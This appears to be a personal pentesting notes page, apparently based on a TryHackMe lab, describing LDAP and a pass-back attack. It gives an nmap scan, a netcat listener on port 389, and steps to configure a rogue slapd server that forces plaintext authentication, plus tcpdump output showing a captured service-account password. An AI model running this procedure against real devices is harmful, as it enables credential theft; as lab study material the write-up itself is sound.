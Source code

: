 ## What is LDAP
LDAP (Lightweight Directory Access Protocol) is a protocol for accessing and maintaining distributed directory information services over an Internet Protocol (IP) network. It is used to access and manage directory information that is organized in a hierarchical manner, similar to a file system. LDAP directories are commonly used to store information such as user names, passwords, and email addresses, as well as other types of information such as security certificates and encryption keys.

LDAP is based on the X.500 standard and can be used to authenticate users and to provide access to resources on a network. When a client application needs to authenticate a user or retrieve information from the directory, it sends a request to the LDAP server using the LDAP protocol. The LDAP server processes the request and returns the requested information to the client if the request is valid.

LDAP servers provide a centralized location for storing and managing directory information, and client applications can use LDAP to query the directory and retrieve the information they need. LDAP is often used in conjunction with other protocols, such as Kerberos, to provide secure authentication and authorization services for a network.

There are two commonly used ports for LDAP traffic: port 389 and port 636. Port 389 is the default port for LDAP and is used for unencrypted LDAP traffic. Port 636 is the default secure port for LDAP and is used for LDAP traffic encrypted with SSL/TLS (Secure Sockets Layer/Transport Layer Security).

LDAP can be exploited over a rogue LDAP server in a number of ways. For example, an attacker could set up a fake LDAP server and configure it to impersonate a legitimate LDAP server. The attacker could then use the fake server to capture and misuse the credentials (PORT 389) of users who try to authenticate with it. An attacker could also use a rogue LDAP server to inject malicious content into the directory, such as false or misleading information, or to manipulate the directory in other ways.

## Find LDAP Port
- Nmap
```Terminal
nmap -sV -sC IP -p389,636
```

- Possible to find LDAP on an other port

## Attack
Type of place to exploit LDAP (Servers)
-   Gitlab
-   Jenkins
-   Custom-developed web applications
-   Printers
-   VPNs  

- Example of what your looking for
		![](https://tryhackme-images.s3.amazonaws.com/user-uploads/6093e17fa004d20049b6933e/room-content/b2ab520a2601299ed9bf74d50168ca7d.png)

Simple Netcat Lisener (Might not work)
```
# Find server (Ex:printer) on the network where there is credential saved (View Pics)
# Setup your Local IP in the field and try ti capture it with Netcat
nc -lvp 389

# Send request in the browser (If this dont work, follow the rogue server technique)
```

Rogue Server (create a server that dictate how data should be share) -> Plain text | Login
```
# Download Tools
sudo apt-get update && sudo apt-get -y install slapd ldap-utils && sudo systemctl enable slapd

sudo dpkg-reconfigure -p low slapd

# Create a new file (location does not matter)
touch olcSaslSecProps.ldif
nano olcSaslSecProps.ldif (Add the following)
	#olcSaslSecProps.ldif
	dn: cn=config
	replace: olcSaslSecProps
	olcSaslSecProps: noanonymous,minssf=0,passcred

# Restart the service
sudo ldapmodify -Y EXTERNAL -H ldapi:// -f ./olcSaslSecProps.ldif && sudo service slapd restart

# Check permission
ldapsearch -H ldap:// -x -LLL -s base -b "" supportedSASLMechanisms

# Launch the server
sudo tcpdump -SX -i INTERFACE tcp port 389

# Send request in the browser (See Picture)
```

Output (Example)
```
...
win 8212, length 0
	0x0000:  4500 0028 b092 4000 8006 2128 0a0a 0ac9  E..(..@...!(....
	0x0010:  0a0a 0a39 c2ab 0185 8b05 d64a b818 7e2d  ...9.......J..~-
	0x0020:  5010 2014 0ae4 0000 0000 0000 0000       P.............
10:41:52.989165 IP 10.10.10.201.49835 > 10.10.10.57.ldap: Flags [P.], seq 2332415562:2332415627, ack 3088612909, win 8212, length 65
	0x0000:  4500 0069 b093 4000 8006 20e6 0a0a 0ac9  E..i..@.........
	0x0010:  0a0a 0a39 c2ab 0185 8b05 d64a b818 7e2d  ...9.......J..~-
	0x0020:  5018 2014 3afe 0000 3084 0000 003b 0201  P...:...0....;..
	0x0030:  0560 8400 0000 3202 0102 0418 7a61 2e74  .`....2.....za.t
	0x0040:  7279 6861 636b 6d65 2e63 6f6d 5c73 7663  ryhackme.com\svc
	0x0050:  4c44 4150 8013 7472 7968 6163 6b6d 656c  LDAP..password11
```
- Example in this case the password is ---> password11
